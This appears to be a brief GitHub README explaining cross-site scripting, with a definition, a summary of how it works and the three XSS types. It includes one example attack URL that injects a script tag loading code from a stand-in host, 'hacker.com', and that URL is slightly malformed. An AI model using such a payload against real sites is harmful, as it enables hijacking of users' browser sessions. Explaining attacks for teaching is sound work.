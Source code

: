 # cross site scripting

XSS vulnerabilities target scripts embedded in a page that are executed on the client-side (in the user’s web browser) rather than on the server-side.

### How XSS Works ?

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application. 

```html
https://site.com?cmt?msg=<script src=htts://hacker.com/badscript.js></script>
```

**Types Of XSS attacks**

1. Reflected xss
2. Stored xss
3. DOM-based xss


